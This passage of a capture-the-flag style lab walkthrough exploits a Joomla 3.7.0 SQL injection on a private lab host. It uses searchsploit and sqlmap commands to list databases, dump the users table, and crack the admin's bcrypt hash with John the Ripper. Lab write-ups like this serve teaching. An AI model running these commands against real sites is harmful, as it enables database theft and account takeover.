







5.1 Search exploit
a) Use “searchsploit” tool on your Kali Machine to search in the database.
$ searchsploit joomla 3.7.0
Output:

b) Show the file for instructions.

we can use it this way:
sqlmap -u "
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"
--risk=3 --level=5 --random-agent --dbs -p list[fullordering]
c) Let's use the exploit.
$ sqlmap -u
"http://192.168.12.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"
--risk=3 --level=5 --random-agent --dbs -p list[fullordering]
Have a coffee!
Output:


We've found a Database called “joomladb”
d) Look for the tables and column.
$ sqlmap -u
"http://192.168.12.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"
--risk=3 --level=5 --random-agent -D joomladb --tables --batch
Output:

We're intersted on “#__users” table.
e) Let's see the contents of “#__users” table.
$ sqlmap -u
"http://192.168.12.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"
--risk=3 --level=5 --random-agent -D joomladb -T
'#__users'
-C name,password --dump --batch
Output:

There's an user, but it's encrypted.
Username: admin
Password: $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
f) Save the password in a file called “hash”
$ gedit
hash
g) Use John the Ripper to decrypt the password.
$ john
hash
Output:

The password is “snoopy”.
Index